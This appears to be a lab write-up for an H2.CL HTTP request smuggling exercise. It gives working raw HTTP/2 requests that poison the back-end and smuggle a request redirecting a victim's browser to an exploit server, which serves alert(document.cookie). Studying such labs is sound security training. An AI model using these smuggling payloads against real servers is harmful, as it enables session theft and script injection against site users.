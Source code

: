 # H2.CL request smuggling
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

# Solution
## Analysis
### Request to /resources
Attacker `Host` header is reflected in redirect response message while requesting `/resources`.
|![](Images/image-54.png)|
|:--:| 
| *Request to /resources* |
|![](Images/image-58.png)|
| *Redirection* |


### Poisoning back-end
First request poisoned the back-end. Second (the same request) was added to the end of the previous request thanks to `Content-Length: 0`. This confirms `H2.CL` vulnerability.

```
POST / HTTP/2
Host: 0a5a006a04a7655785a88b6d008f00b3.web-security-academy.net
Cookie: session=wcYxUySHQexCQUKTGwOBot4mNIMqC3FM
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

POISON
```
|![](Images/image-55.png)|
|:--:| 
| *Back-end was poisoned* |

## Exploitation
Using the above redirection attacker can redirect victim to his exploit server, where he stores malicious payload (in this case javascript `alert(document.cookie)`).
Payload:
```
POST / HTTP/2
Host: 0a20007e0416675882d470e9003200a4.web-security-academy.net
Cookie: session=zLJ76xnX5TmXKHu8aQ0X7WEKuyHAOSLl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a590054048f67fd82646fb001f1002b.exploit-server.net
Content-Length: 5

x=1
```

Exploit server payload:
```
alert(document.cookie);
```

|![](Images/image-56.png)|
|:--:| 
| *Request was smuggled successfuly* |
|![](Images/image-57.png)|
| *Request was smuggled successfuly (follow redirections was turned on)* |
|![](Images/image-59.png)|
| *Exploit server setup* |
|![](Images/image-60.png)|
| *Exploit server logs* |
